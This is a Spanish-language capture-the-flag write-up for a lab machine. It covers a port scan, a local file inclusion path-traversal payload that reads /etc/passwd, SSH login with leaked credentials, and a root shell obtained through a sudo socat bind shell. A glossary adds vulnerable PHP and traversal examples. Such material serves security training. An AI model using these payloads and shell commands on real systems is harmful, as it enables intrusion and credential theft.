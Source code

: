 # Machine Inclusion

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 10.10.59.190
``` 
2. El resultado es el siguiente:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
```

## Analisis de vulnerabilidades

- Luego ejecute dirb de esta manera
```
$ dirb http://10.10.59.190
```
- El resultado que me genero son unas URL que no sirven de nada

## Exploiting

- Al ver que la pagina web tiene un articulo de **LFI**, cuando doy click al botn me redirecciona a otra pagina en el cual tiene una descripcion de que es **LFI** pero su URL es esta:
```
http://10.10.59.190/article?name=lfiattack
```
- Entonces observe en la URL que hay un parámetro llamado **name**. Esto indica que el sitio web incluye información de otros lugares, lo que nos abre a un ataque de inclusión de archivos locales

- Para decirlo de otra manera. La página que estamos viendo está realmente vacía; sin embargo, incluye contenido de otra página. En el ejemplo, esa otra página es **rfiattack**, sin embargo, esto dependerá de qué enlace haya hecho clic.

- Las inclusiones de archivos locales son cuando esa entrada no se desinfecta correctamente, lo que nos permite manipular el enlace para abrir otros archivos. Probemos eso ahora con el **/etc/passwd** archivo, que nos dará una lista de cuentas de usuario en la máquina.

Haremos esto cambiando el bit al final de la URL, después del **=**. Sin embargo, no podemos simplemente cambiarlo para que sea **/etc/passwd**, porque eso solo se verá en el directorio actual , que obviamente no contendrá el archivo que estamos buscando. En su lugar, vamos a tener que volver al inicio del sistema de archivos y luego seguir desde allí.

Al final, tendremos una carga útil que se parece a esto **../../../../../../etc/passwd**. Observe las numerosas ocurrencias de **../**, que se utilizan para subir un directorio, lo que finalmente nos lleva de vuelta al directorio raíz del sistema de archivos. El número que use aquí no importa, siempre que haya suficientes para garantizar que volverá al principio.

- Entonces nuestro ataque final es este:
```
http://10.10.59.190/article?name=../../../../../../etc/passwd
```
- El resultado es el contenido de el **/etc/passwd** y hay un usuario y contraseña que es este:
```
falconfeast:rootpassword
```
- Pruebo esas contraseñas en **SSH** y ha funcionado
- Luego puedo sacar la bandera de **user.txt**
- Vamos a ejecutar el **sudo -l** para ver que archivos se pueden ejecutar como root
- El resultado fue este:
```
(root) NOPASSWD: /usr/bin/socat
```
- Entonces decido buscar algun exploit y encontre que primero en la shell de la victima ejecuto esto:
```
$ sudo socat TCP4-LISTEN:1234,reusaddr EXEC:"/bin/sh"
```
- En maquina de Kali debo escuchar ese puerto asì colocando la IP de la maquina victima:
```
$ sudo socat – TCP4:10.10.59.190:1234
```
- Ya con esto soy **root** y puedo sacar la bandera de root

## Glosario

- **RFI:** 

- **LFI:** Un atacante puede usar la Inclusión de Archivos Locales (LFI) para engañar a la aplicación web para que exponga o ejecute archivos en el servidor web. Un ataque LFI puede llevar a la divulgación de información, a la ejecución remota de código, o incluso a Cross-site Scripting (XSS). Típicamente, LFI ocurre cuando una aplicación usa la ruta de un archivo como entrada. Si la aplicación trata esta entrada como confiable, se puede usar un archivo local en la declaración de inclusión.

- La inclusión de archivos locales es muy similar a la inclusión de archivos remotos (RFI). Sin embargo, un atacante que utilice LFI sólo puede incluir archivos locales (no archivos remotos como en el caso de RFI).

- El siguiente es un ejemplo de código PHP que es vulnerable a LFI:
```
* Obtener el nombre de archivo de una entrada GET

Example - http://example.com/?file=filename.php

$file = $_GET[&#39;file&#39;];

* Incluir el archivo de forma insegura

Example - filename.php

include(&#39;directory/&#39; . $file);

```
- En el ejemplo anterior, un atacante podría hacer la siguiente petición. Engaña a la aplicación para que ejecute un script PHP como un shell web que el atacante logró subir al servidor web.
```
http://example.com/?file=../../uploads/evil.php
```
- En este ejemplo, el archivo cargado por el atacante será incluido y ejecutado por el usuario que ejecuta la aplicación web. Eso permitiría a un atacante ejecutar cualquier código malicioso del lado del servidor que desee.

- Este es el peor de los casos. Un atacante no siempre tiene la capacidad de subir un archivo malicioso a la aplicación. Incluso si lo hicieran, no hay garantía de que la aplicación guarde el archivo en el mismo servidor en el que existe la vulnerabilidad LFI. Incluso entonces, el atacante aún necesitaría conocer la ruta del disco del archivo cargado.

- Incluso sin la capacidad de cargar y ejecutar código, una vulnerabilidad de Inclusión de Archivos Locales puede ser peligrosa. Un atacante todavía puede realizar un ataque de Directory Traversal / Path Traversal usando una vulnerabilidad LFI como sigue.
```
http://example.com/?file=../../../../etc/passwd
```
- En el ejemplo anterior, un atacante puede obtener el contenido del archivo /etc/passwd que contiene una lista de usuarios en el servidor. Del mismo modo, un atacante puede aprovechar la vulnerabilidad de Directory Traversal para acceder a los archivos de registro (por ejemplo, access.log o error.log de Apache), el código fuente y otra información confidencial. Esta información puede utilizarse luego para adelantar un ataque.

- **/usr/bin/socat:**

## Investigación

- **exploit /usr/bin/socat:** https://www.hackingarticles.in/linux-for-pentester-socat-privilege-escalation/

- https://gtfobins.github.io/gtfobins/socat/

- **shell TTY Python:** https://netsec.ws/?p=337

## Explotación maquina Inclusion

- https://muirlandoracle.co.uk/2020/03/14/inclusion-write-up/